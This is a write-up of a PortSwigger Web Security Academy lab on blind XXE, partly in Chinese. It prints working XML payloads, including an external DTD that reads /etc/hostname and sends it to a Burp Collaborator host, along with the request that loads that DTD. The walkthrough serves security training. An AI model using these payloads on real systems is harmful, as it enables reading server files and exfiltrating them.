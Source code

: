 ```yaml
---
title: 'Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
* Goal: To solve the lab, exfiltrate the contents of the /etc/hostname file.
* Hint: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.


## Recon
1. Use the previous method
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://d3hr4hyf51vbe69iuzp4czdzuq0ho6.burpcollaborator.net"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/rJz-j9L42.png)
    By using the previous method, we can not achieve our goal which is exfiltrating the host name of the server.

2. A new method
Refer to the hint, we can use the exploit server they provided.
    1. Copy the Collaborator Payload
    2. Complete Malicious Server Payload and Store
        ```xml
        <!ENTITY % file SYSTEM "file:///etc/hostname">
        <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
        %eval;
        %exfil;
        ```
    3. Complete Intercept Packet Payload
        Intercept the packet that you click `Check stock` button in arbitrary product page.
        Copy and paste your malicious server URL to `YOUR-DTD-URL`, e.g. `https://exploit-{YOUR-RANDOM-URL}.exploit-server.net/exploit`
        ```xml
        <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
        ```
    4. Send packet and observe in Collaborator

## Exp - <font color="FF0000">通靈</font>
完整的流程有點複雜，我自己的想法是暫停的封包會因為parameter entity的reference，而觸發`%xxe`而和malicious server產生互動，此時malicious server就可以利用`%eval`和`%exfil`讓`SYSTEM "file:///etc/hostname"`這個指令被執行，並且把結果當作Collaborator的GET參數回傳給Burp Suite，此時我們就可以在Burp Suite的Collaborator中看到hostname是甚麼了。

:::spoiler Malicious Server Payload
```xml!
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ehzsiicgj29cs7nj8035q0r08reh26.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
:::
:::spoiler Packet Payload
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aae00dc044ebfc38406a3db012f0055.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
:::
:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/HkQPt5843.png)
:::

## Reference
[XXE Lab Breakdown: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://youtu.be/wqwUqHA_AJE)